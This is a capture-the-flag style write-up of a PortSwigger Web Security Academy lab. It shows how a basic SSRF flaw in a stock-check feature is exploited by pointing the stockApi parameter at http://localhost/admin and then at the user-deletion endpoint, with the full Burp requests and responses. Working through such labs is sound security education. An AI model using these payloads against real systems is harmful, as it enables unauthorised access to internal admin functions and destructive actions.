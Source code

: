 *This lab has a stock check feature which fetches data from an internal system. To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.*

Greeted by a page with different products. I decided to check out one of the products, where I found a stock check feature. 

![Screenshot 2024-04-30 at 5.49.03 PM](images/Screenshot%202024-04-30%20at%205.49.03%20PM.png)
In order to intercept the stock check feature, I clicked on the *check stock* function while Burp Intercept was turned on. I received the following output : 
```Burp 
POST /product/stock HTTP/2
Host: 0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Cookie: session=XGxl61zOpX5ZBKQThavkdQTrX5H4leDh
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

As seen above, there is a `stockApi`. we can send the output to Burp Repeater and replace the url in it to `http://localhost/admin` to gain access to the admin panel, as shown below : 


```Burp 
POST /product/stock HTTP/2
Host: 0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Cookie: session=XGxl61zOpX5ZBKQThavkdQTrX5H4leDh
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost/admin
```

The following relevant response was obtained : 

```Burp 
	<div>
		<span>carlos - </span>
		<a href="/admin/delete?username=carlos">Delete</a>
	</div>
```

Once again, I modified the request in the Repeater to the following: 

```Burp 
POST /product/stock HTTP/2
Host: 0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Cookie: session=XGxl61zOpX5ZBKQThavkdQTrX5H4leDh
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Origin: https://0a6d00cf03b3e8fe84e140b4001e00c8.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost/admin/delete?username=carlos
```

This produced the following successful response : 

```Burp 
HTTP/2 302 Found
Location: /admin
Set-Cookie: session=3Mx7ydFFfCsYmfhqEghFIwooL4hkwk9N; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
